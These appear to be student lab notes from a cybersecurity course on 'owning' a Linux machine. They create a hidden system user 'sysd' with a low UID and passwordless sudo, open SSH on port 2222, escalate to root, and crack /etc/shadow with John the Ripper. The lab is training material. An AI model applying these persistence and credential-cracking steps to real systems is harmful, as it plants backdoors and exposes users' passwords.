 # Advanced Bash - Owning the System

Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](Linux/Images/AB-1-create-user.png)

- 2. Give your secret user a password:
  - Sudo passwd sysd



- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd




- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd


- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo


- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd










- Step 2: Smooth Sailing
  - 1. Edit the sshd_config file:
    - sudo nano /etc/ssh/sshd_config




- Step 3: Testing Your Configuration Update
  - 1. Restart the SSH service:
    - systemctl restart ssh

 - 2. Exit the root account
    - exit   (see bottom of the screenshot to see “exit”)




  - 3. SSH to the target machine using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 2222




  - 4. Use sudo to switch to the root user:
    - sudo su root




- Step 4: Crack All the Passwords
  - 1. SSH back to the system using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 22


 - 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    - sudo su root
    - john /etc/shadow
